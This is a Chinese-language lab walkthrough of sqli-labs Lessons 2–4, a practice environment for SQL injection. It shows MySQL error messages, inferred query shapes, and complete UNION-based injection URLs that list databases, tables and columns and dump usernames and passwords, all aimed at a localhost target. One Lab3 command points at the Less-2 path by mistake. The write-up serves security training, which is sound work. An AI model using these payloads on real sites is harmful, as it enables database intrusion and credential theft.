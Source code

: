 # Lab2 -- GET Error based integer

+ 输入?id=1'报错 -- 存在SQL注入

```
报错
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
```

+ 猜测语句

```mysql
有效判断语句为
' LIMIT 0,1
猜测
select * from table where id = id LIMIT 0,1
```

1. 先判断哪些选择可以被显示到网页上 -- 选择的第二个和第三个选项
2. 返回当前用户，数据库及其版本 -- 这里使用security数据库
3. 获取当前数据库中所有数据库
4. 获取当前数据库中的所有表 -- 获得emails，referers，uagents和users
5. 猜测账户密码在users中，获取users表中的所有columns -- 获得id，username和password三个字段
6. 获取账户和密码字段

命令总和（命令在hackbar中执行）

```mysql
http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,3 --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,concat_ws(char(32,58,32),user(),database(),version()) --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,group_concat(schema_name) from information_schema.schemata --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=0 union select 1,2,group_concat(concat_ws(char(32,58,32),id,username,password)) from security.users
```



# Lab3 -- GET Error based single quotes with twist

+ 输入?id=1'报错 -- 存在SQL注入

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1
```

+ 猜测语句

```
有效语句
'1'') LIMIT 0,1
猜测
select * from table where id=('') LIMIT 0,1
```

+ 流程与Lab1和Lab2相同
+ 命令总和（还是用hackbar好了，下载旧版本，链接在此https://github.com/Mr-xn/hackbar2.1.3）

```mysql
http://localhost/sqli-labs-master/Less-3/?id=-1') union select 1,2,3 --+

http://localhost/sqli-labs-master/Less-3/?id=-1') union select 1,2,concat_ws(char(32,58,32),user(),database(),version()) --+

http://localhost/sqli-labs-master/Less-3/?id=-1') union select 1,2,group_concat(schema_name) from information_schema.schemata --+

http://localhost/sqli-labs-master/Less-3/?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

http://127.0.0.1/sqli-labs-master/Less-2/?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+

http://127.0.0.1/sqli-labs-master/Less-3/?id=-1') union select 1,2,group_concat(concat_ws(char(32,58,32),id,username,password)) from security.users --+
```



# Lab4 -- GET Error based Double Quotes

+ 输入?id=1'不报错了，咦？
+ 输入?id=1"报错，观察观察

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

+ 猜测语句

```
有效语句
"1"") LIMIT 0,1
猜测
select * from table where id=("id")
```

+ 所以现在用`id=-1")`代替上面的Lab3的`id=-1`就可以啦，其他流程都一样

